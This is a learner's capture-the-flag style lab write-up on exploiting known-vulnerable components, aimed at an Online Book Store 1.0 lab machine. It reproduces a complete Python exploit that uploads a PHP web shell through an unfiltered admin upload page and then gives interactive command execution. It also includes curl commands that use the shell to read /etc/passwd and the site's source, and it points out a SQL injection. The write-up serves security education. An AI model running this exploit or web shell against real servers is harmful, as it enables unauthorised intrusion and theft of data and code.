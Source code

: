 # 08. Components with known vulnerabilities

[Instroduction] 

In this lab, it just show the beginner how can we find and use pythons script or tools already built to exploit the vulnerability based on in4 of software

- exploit-db is incredibly useful, and for all you beginners you're gonna be using this a lot so it's best to get comfortable with it: [https://www.exploit-db.com](https://www.exploit-db.com/)

*) Task 27 just give us an example of a company which hasn’t update its WordPress and its version is still 4.6. Now, the hacker use wpscan to scan and find out its version. 

- Some quick research will reveal that WordPress 4.6 is vulnerable to an unauthenticated remote code execution(RCE) exploit, and you can find an exploit already made on exploit-db website.

*) Task 28

- Initially, i think that the pythons script on task 28 is to exploit this lab but the script python on task 28 is used for **nostromo web server** to RCE
- However, task28 is a clear example for how to search the perfect tool based on information of sortfware like a version number and a software name so as to exploit the website target.

[Exploit]

Target: http://10.10.122.46/

- Access to the URL, we can see it is CSE book store using PHP with MYSQL as server and boostrap as layout
- Next, i try to search CSE bookstore exploit and see the script called Online Book Store 1.0 - Unauthenticated Remote Code Execution on exploit-db website
- Download the file and run it with URL ⇒ it works :

```
┌──(kali㉿kali)-[~/Downloads]
└─$ python3 47887.py  'http://10.10.122.46/' 
> Attempting to upload PHP web shell...
> Verifying shell upload...
> Web shell uploaded to http://10.10.122.46/bootstrap/img/RhMgwVELy6.php
> Example command usage: http://10.10.122.46/bootstrap/img/RhMgwVELy6.php?cmd=whoami
> Do you wish to launch a shell here? (y/n): y
RCE $ ls
4Bp1GgO6Ye.php
I9DXsSGS3d.php
OU14vBKCrY.php
RhMgwVELy6.php//[*] file php to RCE upload successfully !
....
RCE $ whoami
www-data //  we are user www-data
```

+) Next, we just need to wordcount the file /etc/passwd

```
RCE $ wc -c /etc/passwd
1611 /etc/passwd
```

[Explain the tool]

- The above terminal shows that we upload a payload php to RCE through http://ip/bootstrap/img/payload.php but how does it work?

```
import argparse
import random
import requests
import string
import sys

parser = argparse.ArgumentParser()
parser.add_argument('url', action='store', help='The URL of the target.')
args = parser.parse_args()

// Separate the string input (URL) and remove '/' characters
url = args.url.rstrip('/')
// create a random file and join them 
random_file = ''.join(random.choice(string.ascii_letters + string.digits) for i in range(10))
//[?] simple payload to rce
payload = '<?php echo shell_exec($_GET[\'cmd\']); ?>'

//[?] Prepare the file to be uploaded, named as random_file.php, containing the payload
file = {'image': (random_file + '.php', payload, 'text/php')}
print('> Attempting to upload PHP web shell...')
//[*]Send a POST request to upload the file to the target URL
r = requests.post(url + '/admin_add.php', files=file, data={'add':'1'}, verify=False)
print('> Verifying shell upload...')
//[?] Send a GET request and run command 'echo randomfile' in param cmd 
r = requests.get(url + '/bootstrap/img/' + random_file + '.php', params={'cmd':'echo ' + random_file}, verify=False)

//[?] Check if the random_file is present in the response of r that we have just echo above
if random_file in r.text:
    print('> Web shell uploaded to ' + url + '/bootstrap/img/' + random_file + '.php')
    print('> Example command usage: ' + url + '/bootstrap/img/' + random_file + '.php?cmd=whoami')
    launch_shell = str(input('> Do you wish to launch a shell here? (y/n): '))
    if launch_shell.lower() == 'y':
        while True:
            cmd = str(input('RCE $ '))
            if cmd == 'exit':
                sys.exit(0)
            r = requests.get(url + '/bootstrap/img/' + random_file + '.php', params={'cmd':cmd}, verify=False)
            print(r.text)
else:
    if r.status_code == 200:
        print('> Web shell uploaded to ' + url + '/bootstrap/img/' + random_file + '.php, however a simple command check failed to execute. Perhaps shell_exec is disabled? Try changing the payload.')
    else:
        print('> Web shell failed to upload! The web server may not have write permissions.')        
```

[?] But why it has to upload in bootstrap/img but not other dir ?

- You can see in file admin_add.php which is file for admin only to add new boo

```
 ┌──(kali㉿kali)-[~]
└─$ curl http://10.10.34.223/bootstrap/img/I9DXsSGS3d.php?cmd=cat%20../../admin_add.php 
<?php
        session_start();
        require_once "./functions/admin.php";
        $title = "Add new book";
        require "./template/header.php";
        require "./functions/database_functions.php";
        $conn = db_connect();

        if(isset($_POST['add'])){
              .......
//[*] It add file with name:image with no filter at all only check if the file is set
                if(isset($_FILES['image']) && $_FILES['image']['name'] != ""){
                        $image = $_FILES['image']['name'];
                        $directory_self = str_replace(basename($_SERVER['PHP_SELF']), '', $_SERVER['PHP_SELF']);
// create a variable contains var/www/html/boostrap/img
                        $uploadDirectory = $_SERVER['DOCUMENT_ROOT'] . $directory_self . "bootstrap/img";
                        $uploadDirectory .= $image;
// move upload file to $uploadDirectory
                        move_uploaded_file($_FILES['image']['tmp_name'], $uploadDirectory);
                }

                // find publisher and return pubid
                //[*]untrusted data => sql injecion !!!
                $findPub = "SELECT * FROM publisher WHERE publisher_name = '$publisher'";
                $findResult = mysqli_query($conn, $findPub);
                if(!$findResult){
                        // insert into publisher table and return id
                        $insertPub = "INSERT INTO publisher(publisher_name) VALUES ('$publisher')";
                        $insertResult = mysqli_query($conn, $insertPub);
                        if(!$insertResult){
                                echo "Can't add new publisher " . mysqli_error($conn);
                                exit;
                        }
                        $publisherid = mysql_insert_id($conn);
                } else {
                        $row = mysqli_fetch_assoc($findResult);
                        $publisherid = $row['publisherid'];
                }
.......                                                                  
```

[Testing time ]

```
┌──(kali㉿kali)-[~]
└─$ curl http://10.10.34.223/bootstrap/img/I9DXsSGS3d.php?cmd=pwd               
/var/www/html/bootstrap/img
┌──(kali㉿kali)-[~]
└─$ curl http://10.10.34.223/bootstrap/img/I9DXsSGS3d.php?cmd=ls%20/var/www/html 
README.md
admin.php
admin_add.php
admin_book.php
admin_delete.php
admin_edit.php
admin_signout.php
admin_verify.php
book.php
bookPerPub.php
books.php
bootstrap
cart.php
checkout.php
contact.php
controllers
database
edit_book.php
empty_session.php
functions
index.php
models
process.php
publisher_list.php
purchase.php
template
verify.php
```

⇒ Now we can get all file source code right

**Final result:** 1611
